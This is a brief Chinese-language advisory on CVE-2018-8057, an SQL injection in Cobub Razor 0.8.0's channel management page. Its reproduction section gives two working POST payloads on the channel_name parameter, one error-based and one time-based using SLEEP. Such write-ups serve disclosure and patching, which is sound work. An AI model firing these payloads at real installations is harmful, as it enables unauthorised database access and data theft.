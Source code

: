 # （CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2850](https://www.zhihuifly.com/t/topic/2850)

# （CVE-2018-8057）Cobub Razor 0.8.0 存在SQL注入漏洞

## 一、漏洞简介

Cobub Razor 0.8.0存在SQL注入漏洞，“/application/controllers/manage/channel.php”页面的“channel_name”及“platform”参数过滤不严格导致存在SQL注入漏洞。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

```
> http://www.0-sec.org/index.php?/manage/channel/addchannel  

> POST data:

>  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1 `>  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1` 
```